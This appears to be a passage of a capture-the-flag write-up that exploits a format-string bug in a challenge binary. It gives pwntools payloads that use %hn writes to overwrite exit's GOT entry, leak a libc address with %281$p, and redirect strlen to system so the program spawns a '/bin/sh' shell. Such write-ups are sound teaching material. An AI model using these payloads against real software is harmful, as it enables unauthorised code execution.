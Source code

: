 ```c
    puts("                ||-----||");
    puts("                ||     ||");
    puts(&byte_402096);
    exit(0);
  }
  return 0;
}
```

![ảnh](https://hackmd.io/_uploads/rkUqbfmAge.png)

The program normally exits after one input. Overwrite `exit's GOT` entry to point to `main` so the program loops and accepts input repeatedly.

![ảnh](https://hackmd.io/_uploads/Sy9BffXCgx.png)

![ảnh](https://hackmd.io/_uploads/S1MeXG7Ceg.png)

```py
pl = b'%4829c%14$hn'
pl = pl.ljust(16, b'A')
pl += p64(0x404048)
sla("something: ", pl)
```

This writes the low 2 bytes to the target GOT address using **%hn**. After this the program returns to `main` instead of exiting.

#### Leak libc

![ảnh](https://hackmd.io/_uploads/BkaqXzQRel.png)

Leak an address from the stack to compute libc base. In this run the leak is `libc_start_call_main+122` at stack offset **281**.

```py
pl2 = b'%281$p'
sla("something: ", pl2)
```

Parse the leaked pointer and subtract the known offset to get **libc.base**. Then compute `system`.

![ảnh](https://hackmd.io/_uploads/r11H4M70lg.png)

#### Overwrite strlen GOT with system

`main()` calls `fgets()` then `strlen()`. Overwrite the GOT entry for `strlen` with the address of `system`. When `strlen(s)` is called with **s = "/bin/sh"**, `system("/bin/sh")` runs.

```c
 if ( fgets(s, 1024, stdin) )
  {
    v6 = strlen(s);
```
